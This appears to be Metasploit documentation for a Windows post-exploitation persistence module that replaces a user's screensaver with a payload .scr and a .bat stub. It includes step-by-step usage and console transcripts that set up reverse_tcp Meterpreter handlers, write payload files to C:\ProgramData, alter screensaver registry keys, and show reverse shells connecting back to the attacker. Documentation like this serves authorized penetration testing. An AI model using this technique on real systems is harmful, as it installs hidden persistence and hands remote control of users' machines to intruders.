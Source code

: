 ## Vulnerable Application

  This module sets a user's screensaver to a payload executable file, saved as a `.scr` file.
  The persistence technique has been documented in MITRE's ATT&CK's technique list.

  Of note, a single .exe (renamed as .scr) can be set in the registry with no parameters.
  To achieve this vector, we use a `windows/exec` payload stub to run a `.bat` file.
  The `.bat` file then runs the true payload, and then the original screensaver.  A `/s`
  flag is required to run the screensaver, as opposed to flagless which will show the options
  for it.

  An attempt to force the screensaver change to be recognized without a reboot,
  however (as mentioned on posts on the Internet) this doesn't seem to be reliable
  (which was verified in testing), and one solution seems to be just running it lots of times,
  so we try ten times.  There's also no feedback to tell if it was a success or not.

  The payload will also execute when the screensaver settings menu is opened, or preview
  button is hit.

  Prior to Sept 4, 2019 Mitre's ATT&CK page had previously reported `ScreenSaveTimeOut`
  incorrectly as `ScreenSaverTimeOut` (R).

## Verification Steps

  1. Start msfconsole
  2. Get a shell on the system (SYSTEM will result in the logged in user)
  3. Do: ```use windows/local/user_screensaver_persistence```
  4. Do: ```set writabledir```
  5. Do: ```run```
  6. Create a ```exploit/multi/handler``` with the correct payload and options
  7. Wait
  8. You should get a user level shell

## Options

  **SCREENSAVERTIMEOUT**

  How long to wait until the Screen Saver is activated in seconds.  Default is `0` which means don't alter the value.

  **SCREENSAVER**

  Name of the screensaver .scr file.  Default is `` which will randomly generate.

  **WritableDir**

  A folder which the user can write to.  Default is for Windows 7+ `C:\ProgramData\`

## Scenarios

### Windows 2012

#### Handlers and Initial Access

Create listeners for initial user access (5555) and screensaver shell (4444)

  ```
  resource (screensaver.rb)> use exploit/multi/handler
  resource (screensaver.rb)> set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  resource (screensaver.rb)> set lport 4444
  lport => 4444
  resource (screensaver.rb)> set lhost 111.111.1.111
  lhost => 192.168.2.193
  resource (screensaver.rb)> set ExitOnSession false
  ExitOnSession => false
  resource (screensaver.rb)> run -j
  [*] Exploit running as background job 0.
  [*] Exploit completed, but no session was created.
  resource (screensaver.rb)> set lport 5555
  lport => 5555
  resource (screensaver.rb)> run -j
  [*] Started reverse TCP handler on 192.168.2.193:4444 
  [*] Exploit running as background job 1.
  [*] Exploit completed, but no session was created.
  msf5 exploit(windows/local/user_screensaver_persistence) > jobs
  
  Jobs
  ====
  
    Id  Name                    Payload                          Payload opts
    --  ----                    -------                          ------------
    0   Exploit: multi/handler  windows/meterpreter/reverse_tcp  tcp://111.111.1.111:4444
    1   Exploit: multi/handler  windows/meterpreter/reverse_tcp  tcp://111.111.1.111:5555

  msf5 exploit(windows/local/user_screensaver_persistence) > 
  [*] Sending stage (179779 bytes) to 222.222.2.222
  [*] Meterpreter session 1 opened (111.111.1.111:5555 -> 222.222.2.222:49159) at 2019-09-05 21:12:38 -0400
  ```

#### Set Screensaver

  ```
  resource (screensaver.rb)> use exploit/windows/local/user_screensaver_persistence
  [*] Started reverse TCP handler on 111.111.1.111:5555 
  resource (screensaver.rb)> set session 1
  session => 1
  resource (screensaver.rb)> set screensavetimeout 60
  screensavetimeout => 60
  msf5 exploit(windows/local/user_screensaver_persistence) > run
  
  [*] Original SCRNSAVE.EXE value: C:\Windows\system32\scrnsave.scr
  [*] Original ScreenSaveActive value: 1
  [+] Script to revert changes:
  reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d C:\Windows\system32\scrnsave.scr /f
  reg.exe delete "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveTimeOut /f
  reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1 /f
  [*] Writing payload to C:\ProgramData\hLDnEAAyp.exe
  [*] Writing stub to C:\ProgramData\dYyw9.bat
  [*] Writing scr stub to C:\ProgramData\Og29l.scr
  [*] Changing screensaver
  [+] Screensaver set!
  msf5 exploit(windows/local/user_screensaver_persistence) > date
  [*] exec: date

  Thu 05 Sep 2019 09:13:11 PM EDT
  msf5 exploit(windows/local/user_screensaver_persistence) > 
  [*] Sending stage (179779 bytes) to 222.222.2.222
  [*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:49160) at 2019-09-05 21:14:30 -0400
  ```
